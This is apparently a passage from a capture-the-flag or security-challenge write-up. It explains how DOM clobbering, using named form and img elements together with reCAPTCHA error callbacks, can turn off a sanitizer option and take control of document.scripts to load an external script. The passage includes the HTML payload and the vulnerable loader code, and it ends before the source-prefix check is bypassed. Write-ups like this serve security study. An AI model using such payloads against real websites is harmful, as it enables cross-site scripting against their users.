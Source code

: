 ```
    KEEP_CONTENT: !options.removeContent,
    SANITIZE_DOM: !options.allowDOM,
  })
}
```


When calling sanitize without options, the default value will be defaultOptions, so we can clobber defaultOptions.allowDOM to make SANITIZE_DOM falsy.

Also, we need to call loadData() again without any arguments to let sanitizeOptions be undefined.

To sum up, we can control document.scripts['undefined'] by providing below HTML:

```
<div>
  <form></form>
  <form name="scripts">
    <img name="undefined" src="src_here">
  </form>
  <form id=defaultOptions>
    <img name=allowDOM>
  </form>
  <div class="g-recaptcha"
    data-sitekey="AAA"
    data-error-callback="reloadRecaptchaScript"
    data-size="invisible">
  </div>
  <div class="g-recaptcha"
    data-sitekey="BBB"
    data-error-callback="loadData"
    data-size="invisible">
  </div>
</div>
```

Load external script
Now, we have control on document.scripts[index], but we still need to bypass another check:

```
function reloadRecaptchaScript(index) {
  setTimeout(() => {
    console.log('reload', index, document.scripts[index])
    const element = document.scripts[index]
    const src = element.getAttribute('src')
    if (!src.startsWith('https://www.google.com/recaptcha/')) {
      throw new Error('reload failed, invalid src')
    }
    element.parentNode.removeChild(element)
    loadScript(src)
  }, 1000)
}
```

